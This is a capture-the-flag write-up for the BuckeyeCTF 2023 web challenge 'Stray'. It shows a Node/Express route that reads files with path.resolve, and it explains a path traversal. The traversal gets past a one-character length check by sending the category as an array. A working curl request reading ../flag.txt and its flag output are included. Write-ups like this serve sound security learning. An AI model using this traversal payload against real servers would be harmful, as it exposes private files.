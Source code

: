 # BuckeyeCTF 2023

## Stray

> Stuck on what to name your stray cat?
>
>  Author: mbund
>
> [`export.zip`](export.zip)

Tags: _web_

## Solution
For this challenge we get a website that provides a `Welcome to the Cat Name API!`. We can query by calling `/cat?category={...}` and specifying a category. We also get the source code for this challenge so inspect whats going on.

```python
app.get("/cat", (req, res) => {
  let { category } = req.query;

  console.log(category);

  if (category.length == 1) {
    const filepath = path.resolve("./names/" + category);
    const lines = fs.readFileSync(filepath, "utf-8").split("\n");
    const name = lines[Math.floor(Math.random() * lines.length)];

    res.status(200);
    res.send({ name });
    return;
  }

  res.status(500);
  res.send({ error: "Unable to generate cat name" });
});
```

So this is the interesting part. The category is passed to `path.resolve` so this looks like we have a [`lfi`](https://en.wikipedia.org/wiki/File_inclusion_vulnerability) here. The only thing is, the category cannot be longer than `1` in length, so just passing `../flag.txt` will not work. Thankfully we can wrap the payload to pass the check by providing an array with our path. The array will have a length of `1` and the concatination to the string will resolve the array item so we are left with the full path.

```bash
$ curl https://stray.chall.pwnoh.io/cat?category[]=../flag.txt
{"name":"bctf{j4v45cr1p7_15_4_6r347_l4n6u463}"}
```

Flag `bctf{j4v45cr1p7_15_4_6r347_l4n6u463}`
